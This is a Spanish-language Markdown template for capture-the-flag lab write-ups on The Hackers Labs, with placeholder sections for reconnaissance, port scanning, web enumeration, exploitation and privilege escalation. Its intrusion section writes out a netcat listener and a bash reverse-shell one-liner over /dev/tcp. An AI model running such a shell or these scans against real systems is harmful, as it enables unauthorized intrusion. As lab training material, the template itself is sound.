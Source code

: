 # Writeup Template: Maquina `[Nombre_Máquina]`

- Tags: `[Etiqueta1]` `[Etiqueta2]` `[Etiqueta3]`
- Dificultad: `[Baja/Media/Alta/Insane]`
- Plataforma: `[ The Hackers Labs ]`

---
## Configuracion del Entorno
**Nota:** Pagina oficcioal donde descargo los laboratorios: [The Hackers Labs](https://labs.thehackerslabs.com/)
- Descargamos el archivo **( .ova )**
- Descomprimimos el archivo **zip**
- Importamos el **ova** en **virtualBox**

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
[IP_TARGET]
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 [IP_TARGET] 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py [IP_TARGET]
# TTL: [Valor] -> [Sistema_Operativo]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t [IP_TARGET] -p [Rango_Puertos]

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn [IP_TARGET] -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p[Puertos_Abiertos] [IP_TARGET] -oN targeted
```

**Servicios identificados:**
```bash
# Aqui los servicios
```
---

## Enumeracion de [Servicio  Principal]
direccion **URL** del servicio:
```bash
http://IP
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://[IP_TARGET]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p [PORT] [IP_TARGET]
```

### Descubrimiento de Archivos y Rutas
```bash
gobuster dir -u http://[IP_TARGET]/[Ruta] -w [Diccionario] -t [Hilos] -x [Extensiones]
```

- **Hallazgos**:
```bash
/admin (Status: 200) [Size: 1534]
/backup (Status: 301) [Size: 315]
```

### Descubrimiento de Subdominios
```bash
wfuzz -c -w [Diccionario] -H "Host:FUZZ.Aqui la URL" -u [IP_Objetivo]
```

- **Hallazgos**:
	Aqui los subdominios
### Credenciales Encontradas
- Usuario: `[Usuario]`
- Contraseña: `[Contraseña]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
[Descripción breve del método de explotación]

### Ejecucion del Ataque
```bash
# Comandos para explotación
[comando_explotacion]
```

### Intrusion
Modo escucha
```bash
nc -nlvp PORT
```

```bash
# Reverse shell o acceso inicial
bash -c 'exec bash -i &>/dev/tcp/IP_TARGE/PORT <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
id
sudo -l
find / -perm -4000 2>/dev/null
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios

###### Usuario `[ Nombre-Usuario ]`:

```bash
# Comando para escalar al usuario: ( root )
[comando_escalada]
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---

## Lecciones Aprendidas
1. [Lección 1]
2. [Lección 2]
3. [Lección 3]

## Recomendaciones de Seguridad
- [Recomendación 1]
- [Recomendación 2]
- [Recomendación 3]
